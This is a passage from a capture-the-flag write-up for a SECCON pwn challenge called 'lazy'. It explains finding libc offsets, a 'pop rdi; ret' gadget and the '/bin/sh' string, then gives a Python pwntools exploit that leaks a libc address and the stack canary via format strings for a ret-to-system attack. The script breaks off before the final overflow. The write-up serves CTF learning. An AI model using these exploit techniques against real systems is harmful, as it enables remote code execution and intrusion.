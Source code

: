 None of the programs were able to parse it correctly, but I found some strings used in the `malloc` function so I used them to find out the offset of malloc inside the libc. I also quickly found out that some of the symbols would load correctly, so I managed to find `system` as well.  
I used `strings` with the -o option to find the offset of the "/bin/sh\x00" string.  

I also found a `pop rdi; ret` gadget in the binary itself. This allows us to try the standard `ret to system`.  
All that we need is to get a leak from a known function, like `malloc`, calculate the libc base and subsequently the addresses of system and the "/bin/sh\x00" string and use our overflow to overwrite the saved RIP.

The only obstacle is the canary, but we can just leak it first and just keep it unchanged.

This is the final exploit:
```python
HOST = "lazy.chal.seccon.jp"
PORT = 33333

s = remote(HOST, PORT)
username = "_H4CK3R_"
password = "3XPL01717"

# 0x00000000004015f3 : pop rdi ; ret
pop_rdi = 0x4015f3

libc_start_main = 0x20740
system_off = 0x3F570
malloc_off = 0x78560
bin_sh_off = 0x163c38

s.sendline("2")
s.sendline(username)
s.sendline(password)
s.sendline("4")

leak_fmt = "%7$sAAAA"
leak_fmt += p64(elf.got["malloc"])
s.sendline(leak_fmt)

s.recvuntil("Filename : ")
leak = u64(s.recv(6).ljust(8, "\x00"))

libc_base = leak - malloc_off
system = libc_base + system_off
bin_sh = libc_base + bin_sh_off

log.info("leak {}".format(hex(leak)))
log.info("libc base  @ {}".format(hex(libc_base)))
log.info("system     @ {}".format(hex(system)))
log.info("/bin/sh    @ {}".format(hex(bin_sh)))

leak_fmt = "%9$llx"

s.sendline("4")
s.sendline(leak_fmt)

s.recvuntil("Filename : ")
cookie = int(s.recvline().strip(), 16)

log.info("stack cookie = {}".format(hex(cookie)))

leak_fmt = "%10$llx"

s.sendline("4")
s.sendline(leak_fmt)
```
